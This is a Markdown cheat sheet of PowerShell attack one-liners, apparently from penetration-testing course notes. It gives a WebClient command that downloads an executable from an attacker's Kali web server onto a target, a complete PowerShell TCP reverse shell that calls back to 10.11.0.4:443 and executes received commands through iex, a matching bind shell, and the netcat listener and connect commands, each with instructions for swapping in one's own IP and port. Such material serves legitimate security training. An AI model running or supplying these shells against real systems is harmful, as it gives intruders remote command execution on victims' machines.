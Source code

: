 ## Powershell

### Powershell File Transfers
Transfer file from **target** to **Kali** machine: 

1. Setup webserver on Kali machine:
```bash
python3 -m http.server 80
```

2. Grab download from target:
```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"
```
*NOTE: Change the `http://10.11.0.4/wget.exe` parameter with desired IP address of the **Kali machine** and the destination parameter `C:\Users\offsec\Desktop\wget.exe` with desired destination*


### Powershell Reverse Shells
Reverse Shell from **target** to **Kali** machine:
1. Setup listener on Kali Machine: 
```bash
sudo nc -nvlp $PORT
```

2. Run PowerShell code on target machine:
```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
*NOTE: Change the `10.11.0.4` and `443` parameters with desired IP address and port of the **Kali machine** and **listening port***

### PowerShell Bind Shells
1. Setup powershell listener on target on port **443**. Feel free to change port

```powershell
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
```
2. Connect to target machine from Kali machine:
```bash
nc -nv $TARGET_IP $PORT
```
